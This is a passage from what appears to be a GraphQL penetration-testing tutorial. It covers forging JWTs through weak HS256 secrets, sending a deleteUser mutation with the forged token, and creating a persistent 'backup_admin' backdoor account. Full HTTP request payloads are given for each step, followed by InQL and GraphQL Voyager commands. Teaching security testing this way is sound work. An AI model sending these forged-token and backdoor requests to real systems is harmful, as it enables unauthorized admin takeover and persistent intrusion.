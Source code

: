 5. **JWT Manipulation**:
   - If the token uses a weak algorithm (like HS256), attempt to modify the role claim
   - Try common secrets using Burp's JWT Editor extension
   - If successful, you'll get a new token with admin privileges

6. **Testing Privileged Access**:
   - Use the forged token in Burp Repeater
   - Attempt to access admin-only functionality:
     ```
     POST /graphql HTTP/1.1
     Host: example.com
     Content-Type: application/json
     Authorization: Bearer FORGED_TOKEN
     
     {"query": "mutation { deleteUser(id: \"456\") { success } }"}
     ```

7. **Creating Backdoor Account**:
   - If the forged token works, create a new admin account for persistent access:
     ```
     POST /graphql HTTP/1.1
     Host: example.com
     Content-Type: application/json
     Authorization: Bearer FORGED_TOKEN
     
     {"query": "mutation { createUser(input: { username: \"backup_admin\", password: \"evil_password\", email: \"attacker@evil.com\", role: \"admin\" }) { id role } }"}
     ```

## GraphQL Security Testing Tools

Several specialized tools can help test GraphQL security:

### InQL

InQL is a Burp Suite extension specifically designed for GraphQL security testing:

```bash
# Installing InQL Scanner CLI
pip install inql

# Running a basic scan
inql -t https://api.example.com/graphql

# Dumping schema and generating queries
inql -t https://api.example.com/graphql -d schema_dump -g
```

### GraphQL Voyager

GraphQL Voyager creates visual representations of your schema, helping identify security issues:

```bash
# Installing GraphQL Voyager
npm install -g graphql-voyager

# Usage with a local schema file
voyager --url https://api.example.com/graphql
```
